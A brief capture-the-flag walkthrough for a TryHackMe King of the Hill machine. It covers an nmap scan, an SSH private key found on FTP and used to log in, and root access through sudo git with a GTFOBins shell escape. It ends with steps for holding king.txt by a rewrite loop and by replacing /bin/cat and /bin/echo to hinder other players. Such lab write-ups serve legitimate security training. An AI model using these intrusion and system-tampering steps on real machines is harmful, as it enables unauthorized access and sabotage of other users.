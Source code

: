 # Try Hack Me THM Koth (Production)
- Scan the server
```bash
nmap -sC -sV IP.SERVER.ADDRESS
```
- show result that port `21,22,139,445...` is open there is something on FTP 
### Check FTP Server you will get 
```bash
flag.txt
id_rsa
authorized_keys
id_rsa.pub
```

- Look at `authorized_keys` or `id_rsa.pub` that user is `ashu@ubuntu`
- Change permission of file id_rsa to 400 `chmod 400 id_rsa`
- Then ssh to server `ssh -i id_rsa ashu@IP.SERVER.ADDRESS`
- After login you will have file on `/home/ashu` you will get the flag here.
- Check on `/home/skiddy/homework` there a file there you will get the password there `yxxxxxx!`

### Priviledge Escalation 
- From ashu user `sudo su skiddy` 
- After become skidy then look at the permission using sudo with `sudo -l`
- After that check on `https://gtfobins.github.io/` for sudo git `sudo git -p help config`
- Using `:!/bin/bash` we will get root priviledges
- Congrat's you got the root ... and just find other flag.txt using `find / -name "*.txt" 2>/dev/null`

### Defending king.txt
- using this loop to change king.txt if other user change it. 
```bash
while [ 1 ]; do  echo "anesthetistabove" > /root/king.txt ; sleep 0.1; done &second
```
it will loop every 0.1 
- Change `/bin/cat` `/bin/echo` to become other file, so other user can not use it ;) 